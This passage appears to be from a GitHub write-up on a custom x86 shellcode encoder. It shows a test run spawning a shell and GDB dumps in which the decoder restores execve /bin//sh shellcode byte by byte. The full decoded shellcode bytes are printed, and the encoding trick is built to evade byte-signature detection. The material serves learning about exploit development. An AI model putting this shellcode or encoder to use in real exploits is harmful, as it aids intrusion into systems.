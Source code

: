 ```bash
[sengen@manjaro-x86 /]$ ./shellcode
Shellcode Length: 86
sh-4.4$
```

### Watching the stack in GDB
#### After esp is popped into esi (our encoded shellcode)
```
gdb$ x/40c $esi
0x40206f <code+47>:	0xc0	0x31	0x7f	0x68	0x50	0x7f	0x2f	0x2f
0x402077 <code+55>:	0x7f	0x68	0x73	0x7f	0x2f	0x68	0x7f	0x69
0x40207f <code+63>:	0x62	0x7f	0x89	0x6e	0x7f	0x50	0xe3	0x7f
0x402087 <code+71>:	0xe2	0x89	0x7f	0x89	0x53	0x7f	0xb0	0xe1
0x40208f <code+79>:	0x7f	0xcd	0xb	0x7f	0x7f	0x80	0x7f	0x0
```

#### After first swap
The first and second bytes (0xc0 and 0x31) have been swapped.
```
gdb$ x/40c $esi
0x40206f <code+47>:	0x31	0xc0	0x7f	0x68	0x50	0x7f	0x2f	0x2f
0x402077 <code+55>:	0x7f	0x68	0x73	0x7f	0x2f	0x68	0x7f	0x69
0x40207f <code+63>:	0x62	0x7f	0x89	0x6e	0x7f	0x50	0xe3	0x7f
0x402087 <code+71>:	0xe2	0x89	0x7f	0x89	0x53	0x7f	0xb0	0xe1
0x40208f <code+79>:	0x7f	0xcd	0xb	0x7f	0x7f	0x80	0x7f	0x0
```

#### After second swap
The 4th and 5th bytes (0x68 and 0x50) have been swapped and placed into the 3rd and 4th byte position overwriting the 0x7f.  This process of swapping bytes and moving them back against the rest of the shellcode overwriting the 0x7f bytes will continue until the end.
```
gdb$ x/40c $esi
0x40206f <code+47>:	0x31	0xc0	0x50	0x68	0x50	0x7f	0x2f	0x2f
0x402077 <code+55>:	0x7f	0x68	0x73	0x7f	0x2f	0x68	0x7f	0x69
0x40207f <code+63>:	0x62	0x7f	0x89	0x6e	0x7f	0x50	0xe3	0x7f
0x402087 <code+71>:	0xe2	0x89	0x7f	0x89	0x53	0x7f	0xb0	0xe1
0x40208f <code+79>:	0x7f	0xcd	0xb	0x7f	0x7f	0x80	0x7f	0x0
```

#### After last swap
The final bytes are now from 0x40206f to the first byte at 0x402087 (0x80).  The rest of the bytes after this are now junk and was the extra space the encoded shellcode was using up due to the 0x7f we've been overwriting.
```
gdb$ x/40c $esi
0x40206f <code+47>:	0x31	0xc0	0x50	0x68	0x2f	0x2f	0x73	0x68
0x402077 <code+55>:	0x68	0x2f	0x62	0x69	0x6e	0x89	0xe3	0x50
0x40207f <code+63>:	0x89	0xe2	0x53	0x89	0xe1	0xb0	0xb	0xcd
0x402087 <code+71>:	0x80	0x7f	0x7f	0x89	0x53	0x7f	0xb0	0xe1
0x40208f <code+79>:	0x7f	0xcd	0xb	0x7f	0x7f	0x80	0x7f	0x0
```
